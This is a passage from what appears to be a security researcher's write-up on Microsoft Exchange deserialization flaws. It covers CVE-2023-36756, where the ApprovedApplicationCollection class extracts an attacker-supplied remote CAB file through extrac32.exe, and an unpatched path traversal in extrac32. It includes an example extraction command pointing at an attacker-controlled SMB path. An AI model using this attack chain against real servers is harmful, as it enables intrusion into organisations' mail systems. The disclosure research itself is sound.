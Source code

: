To patch CVE-2023-32031, Microsoft expanded the deny list to include all the classes that I had previously in 2022. The patch went no further than that. Critically, it still did not introduce an allow list, so it was game on. All I had to do was find another class with security impact not included in the deny list, and then I could use `MultiValuedProperty` to deserialize it. This became my next challenge

**CVE-2023-36756 – ApprovedApplicationCollection**

I was looking for classes where something potentially malicious could be reached either through a single-argument constructor or a static `Parse(String)` method. This approach led me to the `Microsoft.Exchange.Data.Directory.SystemConfiguration.ApprovedApplicationCollection` class.

As you can see, we can deliver an object of any type to the constructor. The code flow can go in multiple directions from here.

We are interested in a case where a string is provided to the constructor. When a string is provided, the code expects it to be a valid path to a file with a `.cab` extension. The code does not validate the path in any meaningful way except for checking the extension. The code leads to the `ParseCab` method, where the argument contains the attacker-supplied path:

At `[1]`, a `FileInfo` object is created from the attacker’s path.

At `[2]` and `[3]`, a temporary output directory is created.

At `[4]`, the `OpenCabinetFile` method is called.

At `[5]`, the entire temporary directory is deleted.

At this stage, we can confirm two things. We can deliver a UNC path, such as `\192.168.1.100pocpoc.cab`. The Exchange PowerShell Remoting requires Kerberos authentication, so the attacker most likely resides in the internal network anyway. It is rather rare to see the SMB traffic filtered internally. Thus, in most cases it will not present a challenge for the attacker to host content that the Exchange server can access over SMB.

Next, our remote path is processed by `OpenCabinetFile`. Let’s analyze this method.

It seems that our cabinet file is going to be extracted with the following command:

`extrac32.exe /Y /E /L “C:WindowsTemprandom-uuid” “\192.168.1.100pocpoc.cab”`

Basically, the content of our remote CAB file will be extracted to some temporary directory. Then, the entire directory will be deleted. There does not seem to be any available unsafe operations here. As we will see, though, it turns out that `extrac32` has its own issues.

**ZDI-CAN-21499 – Unpatched Path Traversal in extrac32**

In general, we can use the `ApprovedApplicationCollection` internal Exchange class to extract our CAB file with the Windows utility `extrac32.exe`. This could lead to a file parsing bug, where the parsing part is performed by some unmanaged code. We could always try to look for memory corruptions in `extrac32.exe`. Before even thinking about it, I decided to go for a full-dumb option, which can be summarized with the following meme.

![](https://images.squarespace-cdn.com/content/v1/5894c269e4fcb5e65a1ed623/4a8f79be-74ed-4eb6-b555-5fa7a607e602/meme.png?format=1000w)

I simply created a CAB containing a single file, where the filename contains the path traversal sequence `..`, and tested it.

![](https://images.squarespace-cdn.com/content/v1/5894c269e4fcb5e65a1ed623/6f1342f8-04bb-4b1e-a935-90cfeacbd094/Picture2.png?format=1000w)
